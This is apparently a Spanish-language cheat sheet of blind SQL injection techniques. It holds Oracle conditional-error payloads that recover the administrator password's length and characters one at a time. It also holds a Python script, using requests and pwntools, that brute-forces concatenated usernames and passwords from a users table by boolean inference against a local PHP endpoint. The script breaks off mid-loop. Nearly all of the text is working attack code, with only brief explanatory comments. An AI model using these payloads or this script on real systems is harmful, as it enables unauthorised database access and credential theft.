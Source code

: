## Inyección Blind con error condicional 

```bash 
# Esto es cuando miras un error '500 internal server error' o un '200 ok' cuando esta bien la consulta en  Oracle

❯ ' and (select 'a' from dual)='a'-- - 

# Si es erroneo, entonces no se generara la division (error) y nos devolvera una 'a', por lo que a=a = True. Si cambiamos el numero 2 por 1, entonces si hara la division y no nos devolvera la 'a'.
❯ ' and (select CASE when (1=2) then to_char(1/0) else 'a' end from dual)='a' -- -

# Saber la longitud de la pasword es verdadera generara el error '500', cuando ya no sea verdadero es ahi cuando sabremos la longitud de la password, porque nos regresara un 'ok'
❯ ' and (select CASE when lenth(password)>1 then to_char(1/0) else 'a' end from users where username='administrator')='a' -- -

# Si la primer letra de la password es igual a 'a' genera el error '500', de lo contrario recibiremos un 'ok'
❯ ' and (select CASE when substr(password,1,1)='a' then to_char(1/0) else 'a' end from users where username='administrator')='a' -- -
```

## Inyecciones sin ver el error en el Output 'Blind'

```python
#!/usr/bin/python3

import requests
import signal
import sys
import time
import string
from pwn import *

def def_handler(sig, frame):
    print("\n\n[!] Saliendo...\n")
    sys.exit(1)
    
# Ctrl + c
signal.signal(signal.SIGINT, def_handler)

# Variables globales
main_url = "http://localhost/searchUsers.php"
characters = string.printable

def MakeSQLI():
    p1 = log.progress("Fuerza Bruta")
    p1.status("Iniciando fuerza bruta")
    time.sleep(2)
    p2 = log.progress("Datos extraidos")
    extrated_info = ""

    for position in range(1, 150):
        for character in range(33, 126): # El 9 es un valor que no existe en la web
            sqli_url = main_url + "?id=9 or (select(select ascii(substring((select group_concat(username,0x3a,password) from users),%d,1)) from users where id = 1)=%d)" % (position, character)
#           sqli_url = main_url + "?id=9 or (select(select ascii(substring((select group_concat(schema_name) from information_schema.schemata),%d,1)) from users where id = 1)=%d)" % (position, character)
            p1.status(sqli_url)
            r = requests.get(sqli_url)
            if r.status_code == 200:
```